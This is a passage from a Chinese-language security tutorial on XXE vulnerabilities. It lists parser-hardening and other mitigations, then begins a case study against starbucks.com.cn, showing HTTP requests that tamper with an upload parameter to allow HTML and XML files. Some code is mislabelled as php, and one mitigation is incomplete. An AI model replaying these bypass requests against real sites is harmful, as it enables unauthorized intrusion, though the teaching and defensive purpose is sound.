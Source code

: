 1、禁用外部实体解析：

```php
  ○ 对于XMLReader，使用setFeature方法禁用外部实体：xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
  ○ 对于SAXParserFactory，同样使用setFeature方法：saxParserFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  ○ 对于使用DocumentBuilderFactory的场景，也应禁用外部实体解析：documentBuilderFactory.setExpandEntityReferences(false);
```

2、输入验证：对于所有用户提供的输入，应始终进行严格的验证。仅接受符合预期格式的输入，并拒绝任何不符合预期的输入。

3、最小权限原则：运行解析XML的代码的环境或容器应尽可能以最小的权限运行。这样可以减少潜在的损害，即使攻击者能够触发XXE漏洞。

4、使用安全配置：如果可能，尽量使用安全配置选项。例如，考虑使用静态DTD，避免从不受信任的来源加载外部DTD。

5、输出编码：当输出XML数据时，确保对输出进行适当的编码，以防止任何形式的注入。

# 3、实战案例

## 3.1、星巴克上传接口XXE

首先登录到用户输入的个人信息设置页面，点击上传图片。发现在参数allow\_file\_type\_list中添加html，就可以上传HTML文件，并返回地址信息。

```php
Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif
...

Modified Request:
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,html
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.html"
}
...
```

这样就可以尝试在参数allow\_file\_type\_list中添加XML，上传XML文件

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,xml
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml"
}
...
```